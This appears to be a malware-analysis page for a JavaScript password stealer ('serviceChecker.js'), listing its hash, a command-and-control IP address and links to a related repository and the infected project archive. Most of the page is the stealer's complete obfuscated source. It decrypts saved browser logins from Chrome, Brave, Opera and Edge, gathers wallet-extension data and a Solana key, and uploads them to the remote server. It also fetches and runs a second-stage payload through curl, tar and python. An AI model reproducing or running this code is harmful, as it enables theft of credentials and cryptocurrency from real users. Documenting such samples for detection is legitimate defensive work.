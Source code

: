 <h1>Info for Password Stealer 1</h1>

<h3>Original filename:</h3> serviceChecker.js
<h3>SHA-256:</h3> 7f8bb754f84a06b3e3617dd1138f07a918d11717cc63acaef8eb5c6d10101377

<br/>

<b>Malicious code:</b>
<pre>
Object.prototype.hasOwnProperty,Object.prototype.toString,Object.defineProperty,Object.getOwnPropertyDescriptor;!function t(c,r){if(c===r)return!0;if(c&&r&&"object"==typeof c&&"object"==typeof r){if(c.constructor!==r.constructor)return!1;var e,a,n;if(Array.isArray(c)){if((e=c.length)!=r.length)return!1;for(a=e;0!=a--;)if(!t(c[a],r[a]))return!1;return!0}if(c.constructor===RegExp)return c.source===r.source&&c.flags===r.flags;if(c.valueOf!==Object.prototype.valueOf)return c.valueOf()===r.valueOf();if(c.toString!==Object.prototype.toString)return c.toString()===r.toString();if((e=(n=Object.keys(c)).length)!==Object.keys(r).length)return!1;for(a=e;0!=a--;)if(!Object.prototype.hasOwnProperty.call(r,n[a]))return!1;for(a=e;0!=a--;){var l=n[a];if(!t(c[l],r[l]))return!1}return!0}return c!=c&&r!=r}(0,0);const t="base64",c="utf8",r=r=>(s1=r.slice(1),Buffer.from(s1,t).toString(c)),e=r("dc3FsaXRlMw"),a=r("aY2hpbGRfcHJvY2Vzcw"),n=r("aY3J5cHRv"),l=r("cZXhlYw"),o=r("YcmVxdWVzdA"),i=r("zcGF0aA"),s=r("YcGxhdGZvcm0"),m=r("cdG1wZGly"),b=r("ZaG9tZWRpcg"),u=r("caG9zdG5hbWU"),Z=r("AdHlwZQ"),$=require("fs"),h=require("os"),y=require(e),G=require(i),Y=require(o),d=require(n),f=require(a)[l],W=h[u](),v=h[s](),p=h[b](),V=h[m](),w=h[Z]();let j;const R=r=>Buffer.from(r,t).toString(c),g=(()=>{let t="NDUuNjEuMTaHR0cDovLwYwLjE0OjEyMjQ=      ";for(var c="",r="",e="",a="",n=0;n<10;n++)c+=t[n],r+=t[10+n],e+=t[20+n],a+=t[30+n];return c=c+e+a,R(r)+R(c)})(),X=R("ZGlybmFtZQ"),L=t=>t.replace(/^~([a-z]+|\/)/,((t,c)=>"/"===c?p:`${G[X](p)}/${c}`)),U="dGVhbTE1",F="Z2V0",J="d3JpdGVGaWxlU3luYw",E="L2NsaWVudA",N=R("Ly5ucGw"),B=R(E),S=R(J),k=R(F),z=R("ZXhpc3RzU3luYw"),Q="L3N0b3JlLm5vZGU",x=R("YWNjZXNzU3luYw");function O(t){try{return $[x](t),!0}catch(t){return!1}}const T=R("RGVmYXVsdA"),q=R("UHJvZmlsZQ"),A=R("L0FwcERhdGEvTG9jYWwvTWljcm9zb2Z0L0VkZ2UvVXNlciBEYXRh"),C=(t,c)=>{result="";try{const r=`${t}`,e=require(`${p}${R(Q)}`);if(w!=R("V2luZG93c19OVA"))return;const a=R("U0VMRUNUICogRlJPTSBsb2dpbnM"),n=`${L("~/")}${c}`;let l=G.join(n,R("TG9jYWwgU3RhdGU"));const o=R("YWVzLTI1Ni1nY20"),i=R("b3JpZ2luX3VybA"),s=R("dXNlcm5hbWVfdmFsdWU"),m=R("cGFzc3dvcmRfdmFsdWU"),b=R("Q3J5cHRVbnByb3RlY3REYXRh"),u=R("Y3JlYXRlRGVjaXBoZXJpdg"),Z=R("cmVhZEZpbGU"),h=R("Y29weUZpbGU"),Y=R("TG9naW4gRGF0YQ"),f=R("b3NfY3J5cHQ"),W=R("ZW5jcnlwdGVkX2tleQ"),v=R("RGF0YWJhc2U"),V=R("bGF0aW4x"),j=R("VTog"),g=R("Vzog"),X=R("UDog"),U=R("dW5saW5r");$[Z](l,R("dXRmLTg"),((t,c)=>{if(!t){mkey=JSON.parse(c),mkey=mkey[f][W],mkey=(t=>{var c=atob(t),r=new Uint8Array(c.length);for(let t=0;t<c.length;t++)r[t]=c.charCodeAt(t);return r})(mkey);try{const t=e[b](mkey.slice(5));for(ii=0;ii<=200;ii++){const c=0===ii?T:`${q} ${ii}`,e=`${n}/${c}/${Y}`,l=`${n}/t${c}`;if(!O(e))continue;const b=`${r}_${ii}_${q}`;$[h](e,l,(c=>{try{const c=new y[v](l);c.all(a,((r,e)=>{var a="";r||e.forEach((c=>{var r=c[i],e=c[s],n=c[m];try{"v"===n.subarray(0,1).toString()&&(iv=n.subarray(3,15),cip=n.subarray(15,n.length-16),cip.length&&(mmm=d[u](o,t,iv).update(cip),a=`${a}${g}${r} ${j} ${e} ${X}${mmm.toString(V)}\n\n`))}catch(t){}})),c.close(),$[U](l,(t=>{})),ht(b,a)}))}catch(t){}}))}}catch(t){}}}))}catch(t){}},H=r("aZmlsZW5hbWU"),M=r("YbXVsdGlfZmlsZQ"),I=r("cZm9ybURhdGE"),P=r("adXJs"),D=r("Zb3B0aW9ucw"),_=r("YdmFsdWU"),K=R("cmVhZGRpclN5bmM"),tt=R("c3RhdFN5bmM"),ct=(R("aXNEaXJlY3Rvcnk"),R("cG9zdA")),rt=[[R("L0xpYnJhcnkvQXBwbGljYXRpb24gU3VwcG9ydC9Hb29nbGUvQ2hyb21l"),R("Ly5jb25maWcvZ29vZ2xlLWNocm9tZQ"),R("L0FwcERhdGEvTG9jYWwvR29vZ2xlL0Nocm9tZS9Vc2VyIERhdGE")],[R("L0xpYnJhcnkvQXBwbGljYXRpb24gU3VwcG9ydC9CcmF2ZVNvZnR3YXJlL0JyYXZlLUJyb3dzZXI"),R("Ly5jb25maWcvQnJhdmVTb2Z0d2FyZS9CcmF2ZS1Ccm93c2Vy"),R("L0FwcERhdGEvTG9jYWwvQnJhdmVTb2Z0d2FyZS9CcmF2ZS1Ccm93c2VyL1VzZXIgRGF0YQ")],[R("L0xpYnJhcnkvQXBwbGljYXRpb24gU3VwcG9ydC9jb20ub3BlcmFzb2Z0d2FyZS5PcGVyYQ"),R("Ly5jb25maWcvb3BlcmE"),R("L0FwcERhdGEvUm9hbWluZy9PcGVyYSBTb2Z0d2FyZS9PcGVyYSBTdGFibGUvVXNlciBEYXRh")]],et=R("TG9jYWwgRXh0ZW5zaW9uIFNldHRpbmdz"),at=R("LmxkYg"),nt=R("LmxvZw"),lt=R("c29sYW5hX2lkLnR4dA");let ot="comp";const it=["bmtiaWhmYmVvZ2FlYW9laGxlZm5rb2RiZWZncGdrbm4","aWJuZWpkZmptbWtwY25scGVia2xtbmtvZW9paG9mZWM","ZWpiYWxiYWtvcGxjaGxnaGVjZGFsbWVlZWFqbmltaG0","Zmhib2hpbWFlbGJvaHBqYmJsZGNuZ2NuYXBuZG9kanA","YmZuYWVsbW9tZWltaGxwbWdqbmpvcGhocGtrb2xqcGE","aG5mYW5rbm9jZmVvZmJkZGdjaWpubWhuZm5rZG5hYWQ","Zm5qaG1raGhta2Jqa2thYm5kY25ub2dhZ29nYm5lZWM","YWVhY2hrbm1lZnBoZXBjY2lvbmJvb2hja29ub2VlbWc","aGlmYWZnbWNjZHBla3Bsb21qamtjZmdvZG5oY2VsbGo"],st=R("Y3JlYXRlUmVhZFN0cmVhbQ"),mt=R("L3VwbG9hZHM"),bt=async(t,c,r)=>{let e=t;if(!e||""===e)return[];try{if(!O(e))return[]}catch(t){return[]}c||(c="");let a=[];for(let r=0;r<200;r++){const n=`${t}/${0===r?T:`${q} ${r}`}/${et}`;for(let t=0;t<it.length;t++){const l=R(it[t]);let o=`${n}/${l}`;if(O(o)){try{far=$[K](o)}catch(t){far=[]}far.forEach((async t=>{e=G.join(o,t);try{(e.includes(at)||e.includes(nt))&&a.push({[_]:$[st](e),[D]:{[H]:`${c}${r}_${l}_${t}`}})}catch(t){}}))}}}if(r&&(e=`${p}${R("Ly5jb25maWcvc29sYW5hL2lkLmpzb24")}`,$[z](e)))try{a.push({[_]:$[st](e),[D]:{[H]:lt}})}catch(t){}const n={timestamp:j.toString(),type:U,hid:ot,[M]:a};try{const t={[P]:`${g}${mt}`,[I]:n};Y[ct](t,((t,c,r)=>{}))}catch(t){}return a},ut=()=>{try{rt.forEach(((t,c)=>{C(c,t[2])})),C(3,A)}catch(t){}},Zt=R("L2tleXM"),$t=R("cHl0aG9u"),ht=async(t,c)=>{const r={ts:j.toString(),type:U,hid:ot,ss:t,cc:c.toString()},e={[P]:`${g}${Zt}`,[I]:r};try{Y[ct](e,((t,c,r)=>{}))}catch(t){}},yt=R("cC56aQ"),Gt=R("L3Bkb3du"),Yt=R("cmVuYW1lU3luYw"),dt=R("cmVuYW1l"),ft=R("cm1TeW5j"),Wt=R("dGFyIC14Zg"),vt=R("Y3VybCAtTG8"),pt=R("XC5weXBccHl0aG9uLmV4ZQ"),Vt=51476596;let wt=0;const jt=async t=>{f(`${Wt} ${t} -C ${p}`,((c,r,e)=>{if(c)return $[ft](t),void(wt=0);$[ft](t),Lt()}))},Rt=()=>{const t=R("cDIuemlw"),c=`${g}${Gt}`,r=`${V}\\${yt}`,e=`${V}\\${t}`;if(!(wt>=Vt))if($[z](r))try{var a=$[tt](r);a.size>=Vt?(wt=a.size,$[dt](r,e,(t=>{if(t)throw t;jt(e)}))):(wt<a.size?wt=a.size:($[ft](r),wt=0),gt())}catch(t){}else{f(`${vt} "${r}" "${c}"`,((t,c,a)=>{if(t)return wt=0,void gt();try{wt=Vt,$[Yt](r,e),jt(e)}catch(t){}}))}};function gt(){setTimeout((()=>{Rt()}),2e4)}const Xt=async()=>{var t=process.version.match(/^v(\d+\.\d+)/)[1];const c=`${g}${R("L25vZGUv")}${t}`,r=`${p}${R(Q)}`;if($[z](r))ut();else{f(`${vt} "${r}" "${c}"`,((t,c,r)=>{ut()}))}},Lt=async()=>await new Promise(((t,c)=>{if("w"==v[0]){const t=`${p}${pt}`;$[z](`${t}`)?(()=>{const t=`${g}${B}/${U}`,c=`${p}${N}`,r=`"${p}${pt}" "${c}"`;try{$[ft](c)}catch(t){}Y[k](t,((t,e,a)=>{try{$[S](c,a),f(r,((t,c,r)=>{t&&Xt()}))}catch(t){Xt()}}))})():(Xt(),Rt())}else(()=>{const t=R(E),c=R(J),r=R(F),e=`${g}${t}/${U}`,a=`${p}${N}`;let n=`${$t}3 "${a}"`;Y[r](e,((t,r,e)=>{$[c](a,e),f(n,((t,c,r)=>{}))}))})()}));var Ut=0;const Ft=async()=>{try{j=Date.now(),await(async()=>{ot=W;try{const t=L("~/");rt.forEach((async(c,r)=>{let e="";e="d"==v[0]?`${t}${c[0]}`:"l"==v[0]?`${t}${c[1]}`:`${t}${c[2]}`,await bt(e,`${r}_`,0==r)})),"w"==v[0]&&(pa=`${t}${A}`,await bt(pa,"3_",!1))}catch(t){}})(),Lt()}catch(t){}};Ft();let Jt=setInterval((()=>{(Ut+=1)<5?Ft():clearInterval(Jt)}),6e5);module.exports=Ft; 

</pre>


IP:
45.61.160.14

Similar malware repo: https://github.com/henry-richard7/Browser-password-stealer

<a href="https://github.com/blockchainaddict/cybersec-1/blob/main/HalfArt-main(VIRUS!).zip">Full REPO (WARNING - do not run)</a>